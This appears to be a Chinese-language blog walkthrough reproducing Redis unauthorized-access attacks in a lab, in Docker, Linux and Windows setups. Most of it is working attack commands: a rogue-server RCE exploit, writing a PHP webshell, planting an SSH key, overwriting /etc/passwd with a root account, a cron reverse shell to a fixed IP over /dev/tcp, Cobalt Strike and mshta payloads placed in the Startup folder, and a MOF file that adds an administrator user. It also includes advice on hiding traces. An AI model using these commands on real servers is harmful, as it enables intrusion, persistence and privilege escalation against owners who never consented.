


前言
本次针对redis未授权访问进行的漏洞复现，主要分为redis2.x/3.x/5.x
其中，/5.0中存在未授权+rce，因为采用docker搭建的环境，不是使用root启动，所以一些操作无法完成。
于是使用了redis3.x进行常见linux环境下复现。
使用redis2.x在windows平台搭建进行复现。
RCE
在未授权的前提下，redis5.x存在一个RCE漏洞，复现主要是应用该漏洞。
使用docker搭建环境。
Service docker start
Docker search redis5.0
docker pull damonevking/redis5.0如果docker pull拉取失败，docker加速的文章在博客另一篇文章中有。
拉取成功后，使用docker启动
Docker run -p 6379:6379 damonevking/redis5.0 redis-server访问ip地址/绑定端口，如果出现图中情况,说明配置成功。
攻击机获取exp
git clone https://github.com/Ridter/redis-rce.git此exp缺一个exp.so，在https://github.com/n0b0dyCN/redis-rogue-server下载，然后将exp.so移动到与redis-rce.py同目录下。
具体原因，还有为啥不直接用redis-rogue-server，我也不知道。
运行该脚本：
Python3 redis-rce.py -r rhost -L lhost -f exp.so成功反弹。
但是权限是redis，而且是docker搭建的环境，啥也干不了。网上找了找怎么提权，也没找着，只好选另外搭建环境。
LINUX
安装环境
网上下载了一个redis-3.2.11
wget http://download.redis.io/releases/redis-3.2.11.tar.gz
tar -zxvf redis-3.2.11.tar.gz命令中z是gunzip解压，x是tar的解压，v是输出详细过程，f是提取文件
解压进入到redis目录，输入make
make命令运行完成后，配置redis
Vim redis.conf
中bind 127.0.0.1，注释掉 # bind 127.0.0.1
protected-mode值设为no
接着以这个配置启动redis。
在当前目录下
Redis-server redis.conf攻击机进行连接
redis-cli -h ip
这种情况就是连接成功。
接着就进行到接下来写shell的步骤了。
写webshell
攻击机上运行web服务的时候，找到绝对路径，可以往里面写入webshell，进行连接。这个方法稳定且快速有效，但是因为我懒得在目标机上搭建web服务，于是只是试了一下简单的写文件。
Redis写文件是以键/值的方式写入，键值均可作待写入字符串的载体，另外，之前写入的值也会一并保存到文件中。
写phpinfo：
Config get dir //获取当前目录
Config set dir /tmp/ //到指定目录，这里是tmp，写webshell时调整到网站绝对路径下
Set abc “\n\n<?php phpinfo();?>” //写入，这里还有一种写法：set abc”\n\n<xxx>”nx，末尾的nx代表仅当键abc不存在的时候，才会创建。这样可以防止误更新到业务在用的键名，引发业务的异常。
Config set dbfilename tmp.php //设置写入的文件
Save //保存注：字符串内如果有单引号，双引号的话，需要用\进行转义
另外，如果需要写入多行的话，用\n合并到一行进行写入。为了防止字符串连接出现异常，可以在字符串末尾再添加几个\n或者空格
如果写入的马太长的话，会因为文件太大拒绝。所以一般推荐写个小马，或者是命令执行来判断。
Redis默认配置了压缩功能，可以设置压缩开启或者是关闭。Config get rdbcompression Config set rdbcompression no //关闭压缩功能如果有前人写了个马，按照redis的顺序，你输入的值应该是在他的后面，这样你的连接工具永远无法连接上自己的马。因为连接工具会识别第一个小马。
一般来说，如果数据量不是很大的话，可以使用keys * 找到可疑键，get “键”核实内容，通过del “键”进行删除。
但是生产环境下还是要慎用keys *，所以可以直接讲键名设置位0；如果不怕影响业务的话，也可以用flushall清空所有键之后再进行删除
注：msf实现了自动化。
写公钥
如果目标没有web服务，但是开启了ssh且允许免密登录的话，可以尝试这种方法。
前提是能连接到目标端的ssh服务，目标端允许远程root登录，允许免密登录等等等等
先对linux进行配置，允许ssh免密登录。
Vim /etc/ssh/sshd_config
#PermitRootLogin prohibit-password
PermitRootLogin yes#PasswordAuthentication yes
PasswordAuthentication yes然后启动ssh服务,在目标机器上生成公私钥,将id_rsa.pub中的内容复制为authorized_keys
/etc/init.d/ssh start
ssh-keygen -t rsa在攻击机上生成公私钥,密码设置为空，然后将公钥的值写入redis
Config set dir /root/.ssh //Redis切换到.ssh目录
Set abcd”\n\nid_rsa.pub(攻击机公钥值)\n\n”nx
Config set dbfilename authorized_keys //设置写入文件
Save注：redis写入文件是覆盖类型，不能追加。因此一些设置最好记录在案，比如当前目录h和文件名信息等等，在做完这些之后可以及时恢复，防止被发现异常。
做完这一切后，尝试免密登录
ssh root@ip重置账户密码
Linux存账户密码一般会有/etc/passwd和/etc/shadow，如果两个出现冲突的话，会以/etc/passwd为准。
另外，/etc/passwd的权限一般是644，比/etc/shadow的640要高。而且，redis写入是覆盖的，也就是说，写入进去覆盖之后，其他的都没了，这个过程是有创且不可逆的。
但是可以通过与/etc/passwd- 和/etc/shadow对比，起码可恢复99%的内容。当然，做这步骤前事先和负责人联系，得到许可后自然是最好的，都可以省的恢复了
Mkpasswd --method=md5 --salt=’ur0salt0’ ‘urpasswd@1024’ //使用mkpasswd生成密码
Config set dir /etc/
Config set dbfilename passwd //将生成的MD5写入到/etc/passwd中
Set abcd“\n\nroot:md5:0:0:root:/root:/bin/bash\nsshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin\n\n”nx //要想ssh登录root账号，除了写入root之外，还需要写入sshd账号sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin\n\n
Save然后登录
ssh root@ip输入明文密码,成功登录
写计划任务
和前面差不多，但是我这一步一直没有成功复现。众所周知，debian和ubantu对计划任务管控很严格。可能就是因为这个原因导致没有成功吧。
虽然复现失败，但是记录一下方法，方法和之前差不多：
Config set dir /var/spool/cron
Set abc”\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.192.147/4444 0>&1\n\n”
Config set filename root
Save使用nc监听端口：
Nc -lvnp 4444据说过大概一分钟就能收到回弹的shell，但是一直没有成功……
WINDWOS
环境搭建
在windows下启动redis还是比较简单的，先下载https://github.com/dmajkic/redis/downloads
压缩包里32位64位都有，根据自己的选择解压缩。然后cmd命令进入到安装目录，使用redis-server.exe redis.conf启动即可。
而且从这我们可以看出用户名是Administrator，为后续getshell做准备
写入启动项getshell
环境用的是win7，最开始用的是win10，但是死活不上线，估计win10或者wd做了什么防范策略导致上线失败。
这里使用CS4.0做shell管理工具，使用Attacks – Web Drive-By – Script Web Delivery，生成ps命令，然后写入到启动项中。
启动项地址一般为C:\Users[用户名]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
因为start menu中有空格，所以写入时使用双引号。
在redis操作界面输入命令：config set dir 切换到指定目录。
将ps命令写入 set abcd “ps脚本”
因为ps脚本里含有单双引号，所以需要转义。
不知道是不是因为是windows的原因，使用set abcd””nx 命令提示参数冲突，不过并不碍事。
然后将命令保存为1.bat
Config set dbfilename 1.bat
Save
完成这些后，可以在win7上看见写进去的1.bat
重启之后就能看见CS中机器上线了。
Mshta
下载一个rb脚本
https://github.com/starnightcyber/CVE-2017-11882/edit/master/PS_shell.rb
完成后放到msf的exploit目录下 /usr/share/metasploit-framework/modules/exploits/windows/
接着在msf中执行命令reload_all
在msf中使用
可以设置uripath，不设置也没关系。
将链接写入到启动项中。
Set xxx “\r\n\r\nmshta url \r\n\r\n”
Config set dbfilename 1.bat
Save重启之后，同样能接收到shell。
Mof提权
这种限制了目标机器环境是2003才行.
简单描述一下mof提权的原理：
mof是windows系统的一个文件（在c:/windows/system32/wbem/mof/nullevt.mof）叫做”托管对象格式”其作用是每隔五秒就会去监控进程创建和死亡。
原理就是用了mysql的root权限之后，使用root权限去上传mof。隔了一定的时间，这个mof就会被执行。
Mof当中会有一段vbs脚本，这个vbs脚本大多数是添加管理员用户的命令.
具体操作就是将下列代码在目标机器上保存为mof文件，方法与之前差不多
#pragma namespace("\\.\root\subscription")
instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\Cimv2";
Name = "filtP2";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa "Win32_LocalTime" "
"And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};
instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = new ActiveXObject("WScript.Shell")nWSH.run("net.exe user tatsumaki admin /add")";
};
instance of __FilterToConsumerBinding
{
Consumer = $Consumer;
Filter = $EventFilter;
};注：要执行的命令主要是这一段，可以自行修改，上传时别忘了对单双引号做转义，windows环境下应该是\r\n

执行
(echo -e "\r\n\r\n"; cat 3shine.txt; echo -e "\r\n\r\n") > foo.txt接着上传到redis中
cat foo.txt | redis-cli -h ip -x set x
然而添加失败了，尝试多行合并到一行写入
\r\n\r\n#pragma namespace(\"\\.\root\subscription\")\r\ninstance of __EventFilter as $EventFilter\r\n{\r\nEventNamespace = \"Root\Cimv2\";\r\nName = \"filtP2\";\r\nQuery = \"Select * From __InstanceModificationEvent \"\r\n\"Where TargetInstance Isa \"Win32_LocalTime\" \"\r\n\"And TargetInstance.Second = 5\";\r\nQueryLanguage = \"WQL\";\r\n};\r\ninstance of ActiveScriptEventConsumer as $Consumer\r\n{\r\nName = \"consPCSV2\";\r\nScriptingEngine = \"JScript\";\r\nScriptText =\"var WSH = new ActiveXObject(\"WScript.Shell\")nWSH.run(\"net.exe user 3shine admin /add\")\";\r\n};\r\ninstance of __FilterToConsumerBinding\r\n{\r\nConsumer = $Consumer;\r\nFilter = $EventFilter;\r\n};\r\n\r\n依然添加管理员用户失败

执行不成功，原因不明。
复现失败。
#结语
晚安